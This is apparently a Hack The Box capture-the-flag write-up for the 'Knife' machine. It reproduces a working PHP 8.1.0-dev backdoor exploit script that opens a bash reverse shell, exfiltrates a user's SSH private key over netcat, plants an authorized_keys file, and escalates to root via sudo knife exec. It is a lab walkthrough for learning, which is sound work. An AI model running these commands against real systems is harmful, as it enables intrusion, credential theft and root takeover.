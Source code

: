 # Getting User
Ok so our enumeration hasn't found anything that we can poke at here so now is the time to start digging a little deeper. First off what kind of page is this?
http://10.10.10.242/index.html - Nope!
http://10.10.10.242/index.htm - Nope!
http://10.10.10.242/index.php - Ah ha! 
Ok this is odd because our nmap scan did not show anythign about PHP running on this server. Let's take a quick look at the web response headers to see if it leaks the versions running on the server:
![[Pasted image 20210817174632.png]]

Hmm, interesting. Version 8.1.0-dev? Development versions of software can be vulnerable as they don't always have their security systems built in yet, so this might be vulnerable to something... maybe? Let's have a little google around and see what we find.
![[Pasted image 20210817174947.png]]

Ahh, very interesting. It turns out this version was release with a backdoor included (I think I remeber that in the news actually). This is why it's a good idea to prevent your web server from disclosing the software versions running in the response headers. This now has greatly increased the chance that an attacker will be able to compromise this web server.

Looking at the fist two links in google there is a git-hub repository https://github.com/flast101/php-8.1.0-dev-backdoor-rce that has some exploit code for this vulnerability. Let's a take a quick look and see what it's doing:
```python
# Exploit Title: PHP 8.1.0-dev Backdoor Remote Code Execution
# Date: 23 may 2021
# Exploit Author: flast101
# Vendor Homepage: https://www.php.net/
# Software Link: 
#     - https://hub.docker.com/r/phpdaily/php
#     - https://github.com/phpdaily/php
# Version: 8.1.0-dev
# Tested on: Ubuntu 20.04
# CVE : N/A
# References:
#     - https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a
#     - https://github.com/vulhub/vulhub/blob/master/php/8.1-backdoor/README.zh-cn.md

"""
Blog: https://flast101.github.io/php-8.1.0-dev-backdoor-rce/
Download: https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/revshell_php_8.1.0-dev.py
Contact: flast101.sec@gmail.com

An early release of PHP, the PHP 8.1.0-dev version was released with a backdoor on March 28th 2021, but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agentt header.
The following exploit uses the backdoor to provide a pseudo shell ont the host.

Usage:
  python3 revshell_php_8.1.0-dev.py <target-ip> <attacker-ip> <attacker-port>
"""

#!/usr/bin/env python3
import os, sys, argparse, requests

request = requests.Session()

def check_target(args):
    response = request.get(args.url)
    for header in response.headers.items():
        if "PHP/8.1.0-dev" in header[1]:
            return True
    return False

def reverse_shell(args):
    payload = 'bash -c \"bash -i >& /dev/tcp/' + args.lhost + '/' + args.lport + ' 0>&1\"'
    injection = request.get(args.url, headers={"User-Agentt": "zerodiumsystem('" + payload + "');"}, allow_redirects = False)

def main(): 
    parser = argparse.ArgumentParser(description="Get a reverse shell from PHP 8.1.0-dev backdoor. Set up a netcat listener in another shell: nc -nlvp <attacker PORT>")
    parser.add_argument("url", metavar='<target URL>', help="Target URL")
    parser.add_argument("lhost", metavar='<attacker IP>', help="Attacker listening IP",)
    parser.add_argument("lport", metavar='<attacker PORT>', help="Attacker listening port")
    args = parser.parse_args()
    if check_target(args):
        reverse_shell(args)
    else:
        print("Host is not available or vulnerable, aborting...")
        exit
    
if __name__ == "__main__":
    main()
```

So the exploit is actually really simple. All that needs to be done is send a web request header with and extra "t" in the `User-Agent` header, so `User-Agentt` then include the *zerodiumsystem* string with the command included and the server will execute that command. In this reverse shell code it's simply inserting the classic bash reverse shell `bash -c "bash -i >& /dev/tcp/<attacker IP>/<attacker Port> 0>&1"`

Now, we could do this manually ourselves using something like BurpSuite or we can just use this script because why reinvent the wheel? So let's copy this code and create our own python file: nano rev.py, paste in the code and save the file. 
Now set up a simple Netcat listener: nc -lvnp 9001
Looking at the code usage: `python3 revshell_php_8.1.0-dev.py <target-ip> <attacker-ip> <attacker-port>` we can run this code and get a reverse shell back:
![[Pasted image 20210817181026.png]]

Excellent! We now have a shell on the box as the James user. Let's take a look in his home directory:
cd /home/james
ls -lash
![[Pasted image 20210817181217.png]]
Nice, and there is the `user.txt` flag file.

User flag: 33f04b620096e52667879af5ed5fdc8b

# Getting Root
Before moving on to looking at how we can exploit this host to get to the root user, let's have a look at getting a nicer tty on the box via SSH. Looking in the `~/.ssh` directory we can see james' SSH keys are in there but no authorised keys file. No problem let's get this set up:
`cat id_rsa.pub > authorsied_keys`
Now let's send the private key to our box:
On our box listen for the incoming data and output to a file straight away:
`nc -lvnp 9002 > james`
On the compromised server send the file to my host:
`nc 10.10.14.9 < .ssh/id_rsa`
Ok now we have the private key and have saved it as "james". We just need to change the security on the file `chmod 600 james` and then ssh onto the box using these keys:
![[Pasted image 20210817183303.png]]
Now that's better, we can clear the screen and use tab auto-complete.

Right, as usual one of the first commands I like to run is `sudo -l` to list any commands our user might be able to run as root and with luck without a password too:
![[Pasted image 20210817183532.png]]

So, we can run this "knife" binary as root without a password. This might come in handy.

Let's take a look what this can do and run it:
```bash
sudo /usr/bin/knife                                                                                                                                                                                                  [849/2365]
ERROR: You need to pass a sub-command (e.g., knife SUB-COMMAND)                                                
                                                                                                               
Usage: knife sub-command (options)                                                                             
    -s, --server-url URL             Chef Infra Server URL.                                                    
        --chef-zero-host HOST        Host to start Chef Infra Zero on.                                         
        --chef-zero-port PORT        Port (or port range) to start Chef Infra Zero on. Port ranges like 1000,1010 or 8889-9999 will try all given ports until one works.                                                       
    -k, --key KEY                    Chef Infra Server API client key.                                                                                                                                                         
        --[no-]color                 Use colored output, defaults to enabled.
    -c, --config CONFIG              The configuration file to use.                                            
        --config-option OPTION=VALUE Override a single configuration option.                                   
        --defaults                   Accept default values for all questions.                                                                                                                                                  
    -d, --disable-editing            Do not open EDITOR, just accept the data as is.                           
    -e, --editor EDITOR              Set the editor to use for interactive commands.                           
    -E, --environment ENVIRONMENT    Set the Chef Infra Client environment (except for in searches, where this will be flagrantly ignored).
        --[no-]fips                  Enable FIPS mode.                                                         
    -F, --format FORMAT              Which format to use for output. (valid options: 'summary', 'text', 'json', 'yaml', or 'pp')
        --[no-]listen                Whether a local mode (-z) server binds to a port.                         
    -z, --local-mode                 Point knife commands at local repository instead of Chef Infra Server.    
    -u, --user USER                  Chef Infra Server API client username.
        --print-after                Show the data after a destructive operation.
        --profile PROFILE            The credentials profile to select.
    -V, --verbose                    More verbose output. Use twice (-VV) for additional verbosity and three times (-VVV) for maximum verbosity.
    -v, --version                    Show Chef Infra Client version.
    -y, --yes                        Say yes to all prompts for confirmation.
    -h, --help                       Show this help message.

Available subcommands: (for details, knife SUB-COMMAND --help)

** CHEF ORGANIZATION MANAGEMENT COMMANDS **
knife opc org create ORG_SHORT_NAME ORG_FULL_NAME (options)
knife opc org delete ORG_NAME
knife opc org edit ORG
knife opc org list
knife opc org show ORGNAME
knife opc org user add ORG_NAME USER_NAME
knife opc org user remove ORG_NAME USER_NAME
knife opc user create USERNAME FIRST_NAME [MIDDLE_NAME] LAST_NAME EMAIL PASSWORD
knife opc user delete USERNAME [-d] [-R]
knife opc user edit USERNAME
knife opc user list
knife opc user password USERNAME [PASSWORD | --enable-external-auth]
knife opc user show USERNAME

[...SNIP...]
** EXEC COMMANDS **                                                                                                                                                                                                            
knife exec [SCRIPT] (options)  

[...SNIP...]
```
Ok so this is a Chef tool; I'm not particually familier with everything to do with Chef but looking through the help listing from the knife binary the EXEC COMMANDS section seems very interesting. As we're running this via sudo we can execute commands as root on the system. So how do we do that?

Doing a quick google search for "knife exec commands" we find https://docs.chef.io/workstation/knife_exec/
![[Pasted image 20210817191622.png]]
Under the examples section we can see that we can execute Ruby code via this functionality. Great! We could do a reverse shell back to ourselves as root but we don't need to do that. All we need to do is execute a new shell as root. So let's do just that:
`sudo /usr/bin/knife exec -E 'system("exec bash")'`

Here we have executed system commands via Ruby using the `system()` function, which waits until the command is done so our new bash shell will not die until we exit it.
![[Pasted image 20210817192248.png]]

Job done!
Vosman @vosNETCyber